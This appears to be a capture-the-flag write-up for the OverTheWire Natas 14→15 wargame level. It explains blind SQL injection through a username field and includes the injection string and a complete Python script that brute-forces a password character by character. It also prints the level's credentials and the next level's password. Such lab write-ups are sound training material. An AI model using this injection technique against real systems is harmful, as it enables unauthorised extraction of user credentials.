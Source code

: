# Level 14 → Level 15

## Details
Username: `natas15`<br />
Password: `TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB`<br />
URL:      http://natas15.natas.labs.overthewire.org

## Solution
<img src="./0.png"></img>

<img src="./1.png"></img>

We can edit the query by entering the username. But no matter what we inject the only output will be an indication of the user's existence. Therefore we can try to "guess" the password, and if the output is "existing user" then it is correct.

Username: `natas16`:

<img src="./2.png"></img>
<img src="./3.png"></img>

We will check that the length of the password is indeed 32 characters, like all the passwords so far.<br />
Username: `natas16" and password like "________________________________";#`
<img src="./4.png"></img>
<img src="./5.png"></img>

Now we will compile a script that Brute Force the password, character by character:

```python
from requests import post
from string import digits, ascii_letters

URL = "http://natas15.natas.labs.overthewire.org/index.php"

# After looking at the sent packet and some trial and error, these are the essential headers:
HEADERS ={}
HEADERS["Authorization"] = \
"Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"

# The template for the blind sql injection.
# Note: operator 'like binary' is for case-sensitive (very important)
DATA = "username=natas16\" and password like binary \"________________________________\";#"

password = ""

# Brute force on the password in O(n^2) when `n` is len(digits + ascii_letters)
while(len(password) < 32):
    # get the current index for brute force
    index = DATA.find("_")
    
    for char in digits + ascii_letters:
        # update the current char
        DATA = DATA[:index] + char + DATA[index+1:]
        response = post(url=URL, headers=HEADERS, data=DATA)
        
        # check if the current letter is correct.
        if "This user exists" in response.text:
            password += char
            print("password: "+ password.ljust(32, "_"))
            break
```

Output is:

<img src="./6.png"></img>


## Password for the next level:
```
TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
```
